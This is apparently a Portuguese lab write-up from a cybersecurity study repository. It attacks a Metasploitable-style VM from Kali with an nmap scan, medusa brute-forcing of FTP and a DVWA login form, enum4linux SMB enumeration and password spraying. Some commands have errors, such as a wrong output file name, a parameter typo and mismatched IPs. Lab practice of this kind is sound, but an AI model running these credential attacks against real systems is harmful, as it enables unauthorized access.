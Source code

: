 <img width="2511" height="1018" alt="image" src="https://github.com/user-attachments/assets/ef22b817-6964-4ce1-afc3-0212430e747c" /># EstudosCyber
Hub de estudos em cybersegurança


--------------------------------------------------CRIAR VMS-------------------------------------------------------------

Iniciei o processo a construcao de 2 maquinas virtuais.
A primeira maquina virtual com o kali linux e a segunda com uma maquina para testes internos, chamada de MetaEx (baseado no metasploited 2)
Após breve configuração, executei um ping para verificar se as 2 maquinas estavam na mesma rede.

No Kali
ping -c 3 192.168.16.101 (ip da vm meta)
Me retornou que sim, estamos em sintonia

Proxima fase é descobrir quais portas estao abertas, com isso vamos utilizar o comando nmap:
nmap -sV -p 21,22,80,445,139 192.168.16.101

Esse comando vai escanear as portas
Com esse comando, recebemos a informação de que a porta 21/tvp esta aberta e rodando a versao 2.3.4, a porta 80 e as portas 139 e 445 do smd tbm estao abertas.

Proximo passo foi conectar no ftp usando o comando:
ftp 192.168.56.101, com isso conseguimos conectar mas ainda nao sabemos o user e a senha.

--------------------------------------------------ACESSO FTP--------------------------------------------------------------------
Entao para executar um acesso com bruteforcem criei um arquivo txt de usuarios com o comando
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt

criei tbm o arquivo de senhas com o comando
echo -e "123456\nmsfadmin\nadmin\nroot" > users.txt

agora vou atacar o ftp com o comando
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
com isso pude ver que houve sucesso com o user msfadmin e senha msfadmin

--------------------------------------------------DVWA-----------------------------------------------------------------------------
Agora vou explorar outra falha que é o preenchimento de formularios de login e senha com o DVWA

Para isso, acessei pelo navegador firefox o endereço 192.168.56.101/dvwa/login.php
Ao acessar a pagina, precisei entender como que é o processo interno e entrei na aba de desenvolvedor pelo comando F12 do teclado
Apos isso, cliquei em network e preenchi qq nome de usuario e senha

Com esse teste ja consigo ver os parametros que o site usa para o login, que sao:
username, password e Login

Para esse processo, será necessario a criação de worldlists

Para criação da lista de usuarios, criei com o comando
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt

Criei tbm o arquivo de senhas com o comando
echo -e "123456\nmsfadmin\nadmin\nroot" > users.txt

Como ja criei anteriormente, ja vou utilizar eles no proximo ataque de bruteforce com o medusa

medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
-m PAGE:'dvwa/login.php' \
-m FORM:'usernamne=^USER^&password=PASS^&Login=Login' \
-m 'FAIL=Login failed' -t 6

Com isso encotrei a credencial de login user e senha password, dando acesso ao site

--------------------------------------------------ENUMERACAO SPRAY-------------------------------------------------------------------
Nessa fase vou fazer um ataque em um serviço smb (arquivos e pastas, por exemplo), usando password spraying

Usei o seguinte comando
enum4linux -a 192.168.56.101 | tee enum4_output.txt (O tee serve para gravar o conteudo em um arquivo)

Apos rodar o comando, acessei os dados com o comando
less enum4_output.txt

Nesse arquivo, pude notar os nomes de usuarios reais e com eles que farei o ataque

Para criação da lista de usuarios, criei com o comando
echo -e "user\nmsfadmin\services" > smb_users.txt

Criei tbm o arquivo de senhas com o comando
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt

Agora com as listas criadas, executei o seguinte comando
medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbbt -t 2 -T 50

Encontrei o user msfadmin com senha msfadmin e esse usuario tem privilegios de administrador

Para testar, usei o comando
smbclient -L //192.168.56.101 -U msfadmin
Abriu um pedido de senha e como vi anteriormente a usei a senha msfadmin para concluir o login
